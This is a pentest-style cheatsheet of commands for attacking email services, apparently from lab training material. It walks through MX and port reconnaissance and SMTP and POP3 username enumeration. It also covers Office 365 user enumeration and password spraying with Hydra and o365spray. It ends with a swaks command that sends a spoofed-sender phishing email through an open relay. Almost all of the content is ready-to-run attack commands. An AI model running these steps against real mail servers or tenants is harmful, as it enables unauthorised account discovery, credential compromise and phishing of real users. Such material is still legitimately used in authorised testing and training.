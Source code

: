 # Email Services Enumeration Cheatsheet

Enumerating email services (SMTP, POP3, IMAP4) on ports 25, 110, 143, 465, 587, 993, 995.

## 1. Enumerate MX Records (host)
Identify mail servers for a domain using MX DNS records.
```bash
host -t MX target.com
```
- `-t MX`: Queries MX records.
- Example output: `target.com mail is handled by 10 mail1.target.com`.

## 2. Enumerate MX Records (dig)
Query MX records for a domain.
```bash
dig mx target.com | grep "MX" | grep -v ";"
```
- Filters MX records from dig output.
- Example output: `target.com. 300 IN MX 10 mail1.target.com.`

## 3. Enumerate A Records (host)
Resolve mail server hostname to IP address.
```bash
host -t A mail1.target.com
```
- `-t A`: Queries A records.
- Example output: `mail1.target.com has address 10.129.14.128`.

## 4. Scan Email Ports (nmap)
Scan common email service ports for version and service details.
```bash
sudo nmap -Pn -sV -sC -p25,110,143,465,587,993,995 target.com
```
- `-Pn`: Skips host discovery.
- `-sV`: Detects service versions.
- `-sC`: Runs default scripts.
- `-p`: Targets ports 25 (SMTP), 110 (POP3), 143 (IMAP4), 465 (SMTP encrypted), 587 (SMTP STARTTLS), 993 (IMAP4 encrypted), 995 (POP3 encrypted).

## 5. Enumerate Users with VRFY (telnet)
Check for valid usernames using SMTP VRFY command.
```bash
telnet target.com 25
VRFY username
```
- Connect to SMTP server (port 25).
- `VRFY username`: Checks if username exists (e.g., `252 2.0.0 username` for valid, `550 5.1.1` for invalid).

## 6. Enumerate Users with EXPN (telnet)
List users in a distribution list using SMTP EXPN command.
```bash
telnet target.com 25
EXPN groupname
```
- Connect to SMTP server (port 25).
- `EXPN groupname`: Lists users in group (e.g., `250 2.0.0 user@target.com`).

## 7. Enumerate Users with RCPT TO (telnet)
Verify usernames using SMTP RCPT TO command.
```bash
telnet target.com 25
MAIL FROM:test@domain.com
RCPT TO:username
```
- `MAIL FROM`: Sets sender email.
- `RCPT TO`: Checks recipient (e.g., `250 2.1.5` for valid, `550 5.1.1` for invalid).

## 8. Enumerate Users with POP3 (telnet)
Check for valid usernames using POP3 USER command.
```bash
telnet target.com 110
USER username
```
- Connect to POP3 server (port 110).
- `USER username`: Returns `+OK` for valid users, `-ERR` for invalid.

## 9. Automate User Enumeration (smtp-user-enum)
Enumerate usernames via SMTP with a user list.
```bash
smtp-user-enum -M RCPT -U userlist.txt -D target.com -t target_ip
```
- `-M RCPT`: Uses RCPT TO method (VRFY or EXPN also supported).
- `-U userlist.txt`: File with usernames.
- `-D target.com`: Domain for email addresses.
- `-t target_ip`: Target IP address.

## 10. Validate Office 365 Domain (o365spray)
Check if a domain uses Office 365.
```bash
python3 o365spray.py --validate --domain target.com
```
- `--validate`: Checks for Office 365 usage.
- `--domain`: Target domain.

## 11. Enumerate Office 365 Users (o365spray)
Enumerate valid usernames for Office 365.
```bash
python3 o365spray.py --enum -U users.txt --domain target.com
```
- `--enum`: Enables user enumeration.
- `-U users.txt`: File with usernames.
- `--domain`: Target domain.

## 12. Password Spray with Hydra (POP3)
Perform password spraying against POP3 service.
```bash
hydra -L users.txt -p 'password' -f target.com pop3
```
- `-L users.txt`: File with usernames.
- `-p 'password'`: Password to test.
- `-f`: Stops on first valid credential.
- `pop3`: Targets POP3 protocol (port 110).

## 13. Password Spray Office 365 (o365spray)
Password spray against Office 365 users.
```bash
python3 o365spray.py --spray -U usersfound.txt -p 'password' --count 1 --lockout 1 --domain target.com
```
- `--spray`: Enables password spraying.
- `-U usersfound.txt`: File with usernames.
- `-p 'password'`: Password to test.
- `--count 1`: Number of passwords per spray.
- `--lockout 1`: Lockout wait time (minutes).
- `--domain`: Target domain.

## 14. Check for Open Relay (nmap)
Identify if SMTP server allows open relay.
```bash
nmap -p25 -Pn --script smtp-open-relay target.com
```
- `-p25`: Targets SMTP port.
- `-Pn`: Skips host discovery.
- `--script smtp-open-relay`: Tests for open relay.

## 15. Send Phishing Email via Open Relay (swaks)
Send email through an open relay SMTP server.
```bash
swaks --from sender@target.com --to recipient@target.com --header 'Subject: Notification' --body 'Click here: http://phishinglink.com' --server target.com
```
- `--from`: Spoofed sender email.
- `--to`: Recipient email.
- `--header`: Email subject.
- `--body`: Email content.
- `--server`: Target SMTP server.